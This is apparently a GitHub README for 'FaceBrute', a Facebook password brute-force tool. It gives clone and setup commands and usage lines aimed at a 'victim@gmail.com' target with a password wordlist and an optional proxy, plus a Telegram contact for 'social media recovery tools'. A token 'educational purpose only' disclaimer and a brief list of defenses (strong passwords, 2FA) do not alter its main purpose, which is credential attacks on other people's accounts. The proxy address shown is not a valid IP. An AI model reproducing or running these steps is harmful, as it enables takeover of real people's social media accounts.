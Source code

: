# FaceBrute
```
A Bruteforce attack, For educational purpose only
```
###### A Free Facebook Bruteforce Attack Tool.
***
### <p align="center">Hack can be executed on Termux && any Linux Distribution 
***

  Message Me For Any Social Media Recovery Tool Telegram-:(https://t.me/alphahacklord)
```
Note : Please try not to harm anyone social media account 
       Just For The Purpose Of Fun And Not For Revenge
```      

## Install Requirements (on Linux)
```
>> apt-get install git python3 python3-pip python python-pip
>> python3 -m pip install requests bs4
>> python3 -m pip install mechanize
```

## The Tool is for :
- Kali Linux
- Parrot Os
- BlackArch Linux
- iShell
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
>>apt update && apt upgrade -y
```
```bash
>>apt install git -y
```
```bash
>>git clone https://github.com/Alpha-HackLord/facebrute.git
```
```bash
>>cd facebrute
```
```bash
>>bash setup
```
```bash
>>python3 FBRUTE.py or FBRUTE2.py or FBRUTE3.py
```
## Protection Against Attacker
* Use Strong Password(which contains standard password chars + longest as possible)
* Use 2F Authentication.
* Make location based login(+browser based).

## usage for FBRUTE3 :-
  - **You can use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without any proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w passwords.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w passwords.txt -p 144.329.281.245:8080
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/hackgod
  
